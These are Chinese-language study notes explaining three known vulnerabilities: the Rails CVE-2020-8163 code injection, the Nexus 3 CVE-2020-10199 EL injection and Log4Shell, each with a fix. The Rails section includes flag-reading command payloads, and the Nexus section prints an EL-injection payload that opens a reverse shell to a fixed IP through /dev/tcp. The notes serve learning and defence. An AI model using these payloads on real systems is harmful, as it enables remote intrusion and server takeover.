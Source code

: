 # Ruby_on_Rails-CVE-2020-8163 远程执行漏洞

Ruby on Rails是一个web框架，使用ruby语言。

CVE-2020-8163 是 Ruby on Rails 框架的代码注入漏洞。因框架对`render`方法的`locals`参数未严格过滤，攻击者可构造恶意参数，借助`eval`执行注入代码，实现远程命令执行，如读取文件或控制服务器。

修复办法是：将locals参数转换为集合，然后减去rails框架中预留的危险方法名的集合，最后用正则表达式过滤locals参数变量名。

payload：

```
第一个 URL：IO.popen(%27find ../ -name "*flag*"%27).read，利用find命令在上级目录查找含 “flag” 的文件，定位 flag 位置。
第二个 URL：IO.popen(%27cat ../tmp/flag%27).read，通过cat命令读取已定位的../tmp/flag文件内容，获取 flag。
```

# CVE-2020-10199- Nexus 3

Nexus Repository Manager 3 是一款软件仓库。

这个漏洞的使用前提是攻击者必须拥有访问 Nexus 资源库实例的网络权限。

EL表达式用于简化访问数据和执行简单运算的操作，EL表达式执行的松散性，并且未正确过滤输入，刚好可以用来绕过正则表达式的过滤。攻击者通过构造恶意 EL 表达式注入，触发 Java 反射机制执行任意系统命令（如反弹 shell）。

```c++
''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')
```

下面逐步解析这个代码：

1. 获取`Runtime`类的`Class`对象：
   - `''.getClass().forName('java.lang.Runtime')`：`''`是一个空字符串对象，调用其`getClass()`方法获取`String`类的`Class`对象，然后使用`forName()`方法通过类的全限定名`java.lang.Runtime`获取`Runtime`类的`Class`对象。`Runtime`类在 Java 中代表运行时环境，提供了执行系统命令的功能。
2. 获取`exec()`方法：
   - `getMethods()[6]`：调用`Class`对象的`getMethods()`方法获取`Runtime`类的所有公共方法数组，然后通过索引`[6]`获取`exec()`方法（在不同的 Java 版本中，`exec()`方法在数组中的索引可能不同）。`exec()`方法用于执行系统命令。
3. 调用`exec()`方法执行命令：
   - `invoke(null)`：由于`exec()`是`Runtime`类的静态方法，所以调用`invoke()`方法时第一个参数为`null`，这样就可以获取`Runtime`类的实例并调用其`exec()`方法。
   - `exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')`：调用`exec()`方法执行反弹 shell 的命令，使目标主机主动连接到攻击者指定的 IP 地址和端口，从而让攻击者获得目标主机的控制权。

# Log4j（log for java）

Apache 是一个开源的 Web 服务器软件，广泛用于托管网站和应用。

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX守护进程。

在Log4j2中提供了**Lookups**机制，Lookups提供了一种在Log4j配置文件任意位置添加值的方法；而Lookups机制中，存在**JNDI**，在Log4j日志输出时，未对字符合法性进行严格的限制，造成JNDI协议加载的远程恶意脚本被执行，从而造成RCE。

**lookups**的主要功能就是提供另外一种方式以添加某些特殊的值到日志中

**JNDI**主要由两部分组成：Naming（命名）和Directory（目录），其中Naming是指将对象通过唯一标识符绑定到一个上下文Context，同时可通过唯一标识符查找获得对象，而Directory主要指将某一对象的属性绑定到Directory的上下文DirContext中，同时可通过名字获取对象的属性同时操作属性。

JNDI主要由JNDI API和JNDI SPI两部分组成，Java应用程序通过JNDI API访问目录服务，而JNDI API会调用Naming Manager实例化JNDI SPI，然后通过JNDI SPI去操作命名或目录服务其如LDAP， DNS，RMI等，JNDI内部已实现了对LDAP，DNS， RMI等目录服务器的操作API。

通过上面可以知道，JNDI可以实现对LADP、RMI等服务的操作，所以攻击者只需要构建一个LADP或RMI远程服务即可，让远程服务器返回恶意class。

**LADP**（Lightweight Directory Access Protocol）：顾名思义，一个轻量级的目录访问协议，用来访问目录服务（Directory Service）。那么LDAP协议作为一个访问协议，它在技术架构的表现上是一个CS架构模式：以IDaaS为例，IDaaS产品要解决的三个问题，都是会作为LDAP Client去访问LDAP Server（这里LDAP Server和Directory Service等同了），来实现功能

**RMI**（即Remote Method Invocation）是Java平台一个分布式应用程序的应用编程接口（API），它是Java Remote Method Protocol（JRMP）的实现，这个协议代表了Java语言特有的远程过程调用（RPC）系统。RMI允许一个对象通过一个网络在另外一个虚拟机上被调用，这些对象称之为远程对象。

**攻击者定义一个接口，在接口中定义数据库操作等。**
**攻击者携带lookup支持表达式进行请求服务器。**
**服务器通过log4j打印出请求信息。**
**log4j打印完成后会执行JNDI操作。**
![image-20250311220403405](实习问题.assets/image-20250311220403405.png)

解决办法：禁用使用JNDI或者升级